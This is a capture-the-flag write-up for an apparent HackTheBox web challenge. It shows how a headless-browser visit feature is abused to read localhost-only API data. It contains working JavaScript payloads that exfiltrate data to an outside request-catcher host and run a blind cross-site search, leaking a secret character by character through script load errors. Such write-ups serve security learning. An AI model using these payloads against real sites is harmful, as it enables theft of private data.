 1. After analyzing the code, we got some useful information
   - The flag was in `userEntries` table's `title` column and its `approved` is `0`.
   - There were two api, `GET /api/entries` and `GET /api/entries/search`, to allow us to access `userEntries` table, but to rows with `approved=0` we need to access via `127.0.0.1`
   - `POST /api/entries` allowed us to visit other pages, but it wouldn't return the page content. The headless browser would stay on the page for `7` seconds.

```js
const isLocalhost = req => ((req.ip == '127.0.0.1' && req.headers.host == '127.0.0.1:1337') ? 0 : 1);
```

2. We decided to create a website with public ip or domain and make `POST /api/entries` to access our website. In the website, we will call the `GET 127.0.0.1:1337/api/entries` to get the content and make another request to our site with content as its parameter.
   - We put our html in [CodeSandbox](https://codesandbox.io) to allow the target to access.
   - And to get our results, we would make a request to `https://test.requestcatcher.com/`.

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Test</title>

</head>
<body>
    <script>
        fetch('http://127.0.0.1:1337/api/entries', { mode: 'no-cors'})
        .then((response) => response.json())
        .then((data) => {
            const q = btoa(JSON.stringify(data));
            fetch(`https://test.requestcatcher.com?q=${q}`);
        })
    </script>
</body>
</html>
```

3. Unfortunately, due to the **Same Origin Policy** for GET and JSON data type, the above method didn't work. Thus, we decided to use `GET /api/entries/search` that would return status code `404` if no matching title was found. We use `<script src="http://127.0.0.1/api/entries/search?q=HTB{xxx">` to gradually and blindly get our flag.


```html
-- This html allow us to test approve=1's title 
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Test</title>

</head>
<body>
    <script>
        const chars =
          "-+!@abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_";
        let flag = "B";
        const target = "178.128.37.153:30039"
        const payload = `http://${target}/api/entries/search?q=`;
    
        function addScript(c) {
          return new Promise((resolve, reject) => {
            const script = document.createElement("script");
            script.src = `${payload}${encodeURIComponent(flag + c)}`
            script.onload = () => resolve(c);
            script.onerror = () => reject(c);
    
            document.head.appendChild(script);
          });
        }
    
        async function getFlag() {
          for (let i = 0; i < 5; i++) {
            let found = false;
            for (c of chars) {
                try {
                    const fragment = await addScript(c)
                    flag = flag + fragment
                    found = true
                    break
                } catch (e) {}
            }
            if (!found) {
                break
            }
          }
          console.log(flag)
        }

        getFlag()
      </script>
</body>
</html>
```

4. Since the headless browser only stops for `7` seconds, we couldn't get all flags in a single request. We would need to gradually add the results back the our `flag` variable.

```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Test</title>

</head>
<body>
    <script>
        const chars =
          "-+!@abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_";
        let flag = "HTB{";
        const target = "178.128.37.153:30039"
        const payload = `http://${target}/api/entries/search?q=`;
    
        function addScript(c) {
          return new Promise((resolve, reject) => {
            const script = document.createElement("script");
            script.src = `${payload}${encodeURIComponent(flag + c)}`
            script.onload = () => resolve(c);
            script.onerror = () => reject(c);
    
            document.head.appendChild(script);
          });
        }
    
        async function getFlag() {
          for (let i = 0; i < 10; i++) {
            let found = false;
            for (c of chars) {
                try {
                    const fragment = await addScript(c)
                    flag = flag + fragment
                    fetch(`https://test.requestcatcher.com?q=${flag}`);
                    found = true
                    break
                } catch (e) {}
            }
            if (!found) {
                break
            }
          }
        }

        getFlag()
      </script>
</body>
</html>

```